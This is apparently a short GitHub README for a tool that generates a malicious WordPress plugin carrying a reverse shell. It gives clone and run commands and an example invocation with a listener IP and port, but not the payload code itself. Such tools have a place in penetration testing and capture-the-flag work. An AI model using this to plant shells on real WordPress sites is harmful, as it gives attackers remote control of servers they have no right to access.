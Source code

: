 # WordPress revese shell Plugin Generator

## Installation
```
git clone http://github.com/root-tanishq/wp_rshell
```
```
cd wp_rshell
```
```
python3 wp_rshell.py
```

## Tool Usage

Usage = python3 wp_rshell.py [IP] [PORT] [FILE NAME]
FILE NAME = Plese dont provide extension

Example:-
    # python3 wp_rshell.py 10.10.11.100 4455 payload
